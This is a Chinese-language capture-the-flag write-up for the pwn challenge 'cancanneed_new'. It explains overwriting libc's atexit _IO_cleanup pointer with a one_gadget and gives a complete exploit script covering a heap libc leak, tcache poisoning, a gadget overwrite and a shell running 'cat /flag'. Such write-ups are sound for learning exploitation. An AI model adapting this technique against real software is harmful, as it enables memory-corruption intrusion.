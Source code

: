 ```yaml
---
date: 2024-10-10 23:12
challenge: cancanneed_new
tags:
  - IO
---
```


这道题比较抽象，在 gift 功能中会将 libc 里的一段只读区域设置为可写的，可以通过爆破 + 调试找到其中在 exit 时会调用的函数指针，覆写为 `one_gadget` 实现利用。

> [!info]
> 这里很麻烦的一点是 gift 函数里限时 10 秒，但是交互 1000 次需要不少时间，远程总是差一点，跑很多遍终于出来了

实际上这里打的是 `__elf_set___libc_atexit_element__IO_cleanup__` 函数指针，原先这里存放的是 `_IO_cleanup` 函数地址，覆盖为 `one_gadget` 则会在 exit 时调用任意地址：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

context.log_level = "info"


def cmd(choice):
    ru(b"Your Choice: \n")
    sl(i2b(choice))


def win_gift():
    cmd(666)
    ru(b"But,you have to win it by yourself\n")
    sl(i2b(1))
    for i in range(1000):
        res = eval(ru(b"= ?", drop=True))
        sl(i2b(res))
        if i % 100 == 0:
            lg(b"i", i)
    ru(b"Now,you have earned your award!\n")


def add(size, data):
    cmd(1)
    ru(b"please tell me how much you want to have:\n")
    sl(i2b(size))
    ru(b"Content:\n")
    s(data)


def delet(idx):
    cmd(2)
    ru(b"Please give me idx:\n")
    sl(i2b(idx))


def edit(idx, data):
    cmd(3)
    ru(b"Please give me idx:\n")
    sl(i2b(idx))
    ru(b"What do you want?\n")
    s(data)


def show(idx):
    cmd(4)
    ru(b"Please give me idx:\n")
    sl(i2b(idx))


for i in range(8):
    add(0x90, b"a")

add(0x90, b"b")
for i in range(8):
    delet(i)
show(7)
ru(b"info:\n")
libc_base = u64_ex(ru(b"\n", drop=True)) - 0x1ECBE0
lg("libc_base", libc_base)

edit(6, p64(libc_base + 0x1E9000 - 0x80 * 15))
add(0x90, b"a")
win_gift()

one_hook = libc_base + 0xE3AFE
lg("one_hook", one_hook)
add(0x90, p64(one_hook) * (0x88 // 8))

cmd(5)
sl(b"cat /flag")

ia()
```
